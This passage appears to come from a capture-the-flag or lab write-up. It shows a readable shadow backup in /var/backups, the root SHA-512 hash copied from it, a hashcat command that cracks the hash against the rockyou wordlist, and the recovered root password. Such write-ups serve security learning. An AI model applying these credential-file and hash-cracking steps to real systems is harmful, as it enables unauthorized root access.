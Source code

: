 after looking around, we find something in `/var/backups`

There is a `shadow` file in there we can read

This gives us the root pw hash

```
root:$6$KIP2PX8O$7VF4mj1i.w/.sIOwyeN6LKnmeaFTgAGZtjBjRbvX4pEHvx1XUzXLTBBu0jRLPeZS.69qNrPgHJ0yvc3N82hY31
```

$6$ denotes that it is a sha512

we throw this portion into a txt file and crack it
`$6$KIP2PX8O$7VF4mj1i.w/.sIOwyeN6LKnmeaFTgAGZtjBjRbvX4pEHvx1XUzXLTBBu0jRLPeZS.69qNrPgHJ0yvc3N82hY31`

We can use hashcat to crack this
`hashcat -m 1800 --force crack.txt /usr/share/wordlists/rockyou`

root password: `password#1`